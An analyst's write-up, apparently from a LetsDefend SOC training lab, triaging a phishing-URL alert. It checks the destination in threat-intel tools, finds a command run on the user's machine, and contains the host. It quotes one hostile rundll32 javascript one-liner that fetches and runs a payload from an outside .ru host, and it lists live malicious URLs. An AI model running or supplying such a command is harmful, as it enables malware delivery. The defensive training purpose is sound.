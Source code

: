 SOC141 - Phishing URL Detected
see results at :
https://app.letsdefend.io/case-management/casedetail/shakeco1/86

|   |   |   |   |   |   |
|---|---|---|---|---|---|
|EventID :<br><br>86<br><br>Event Time :<br><br>Mar, 22, 2021, 09:23 PM<br><br>Rule :<br><br>SOC141 - Phishing URL Detected<br><br>Level :<br><br>Security Analyst<br><br>Source Address :<br><br>172.16.17.49<br><br>Source Hostname :<br><br>EmilyComp<br><br>Destination Address :<br><br>91.189.114.8<br><br>Destination Hostname :<br><br>mogagrocol.ru<br><br>Username :<br><br>ellie<br><br>Request URL :<br><br>http://mogagrocol.ru/wp-content/plugins/akismet/fv/index.php?email=ellie@letsdefend.io<br><br>User Agent :<br><br>Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36<br><br>Device Action :<br><br>Allowed|   |   |   |   |   |


-------------------------------------------
### Collection Data

Please check alert details fot belows.

- Source Address : 172.16.17.49
- Destination Address : 91.189.114.8
- User-Agent : Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36

### Analyze URL Address

Analyze URL in 3rd party tools. Please click "Malicious" if it is malicious and click "Non-malicious" if it isn't.

You can use the free products/services below.
- [AnyRun](https://app.any.run/) (buisness)
- [VirusTotal](https://www.virustotal.com/)
- [URLHouse](https://urlhaus.abuse.ch/browse/)
- [URLScan](https://urlscan.io/)
- [HybridAnalysis](https://www.hybrid-analysis.com/)
- [AbuseIPDB](https://www.abuseipdb.com/)


- When was it accessed? Mar, 22, 2021, 09:23 PM
- What is the source address? 172.16.17.49
- What is the destination address? 91.189.114.8
- Which user tried to access? Emily
- What is User Agent? Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36
- Is the request blocked? no

![[Pasted image 20250809174418.png]]

- **ה־Source** (המקור) → `172.16.17.49` (`EmilyComp`) — המחשב של **Emily** ברשת הפנימית שלך.
    
- **ה־Destination** (היעד) → `91.189.114.8` (`mogagrocol.ru`) — שרת זדוני באינטרנט (ברוסיה לפי הסיומת `.ru`).

AbuseIPDB :
![[Pasted image 20250809172204.png]]

virustotal:
![[Pasted image 20250809172350.png]]


it doesn't look like the IP adress is malicious 
lets check the URL now (http://mogagrocol.ru) :

![[Pasted image 20250809172554.png]]
 we can see 4/97 security vendors flagged this URL as malicious
 ![[Pasted image 20250809172649.png]]
 hybrid-analysis
![[Pasted image 20250809172837.png]]
urlscan.io
![[Pasted image 20250809172925.png]]


I will now check emily's computer and I see that a command has ran in the terminal 
![[Pasted image 20250809173229.png]]

rundll32.exe javascript:'../mshtml,RunHTMLApplication ';document.write();GetObject('script:http://ru-uid-507352920.pp.ru/KBDYAK.exe')'

it seems like the computer might be infected with malware
![[Pasted image 20250809173319.png]]


now we will look if any other computers in our network communicated with this address (91.189.114.8)
![[Pasted image 20250809173829.png]]

we can see that only EmilyComp communicated with it.

we have contained emily's computer
untill further investigation 
![[Pasted image 20250809180645.png]]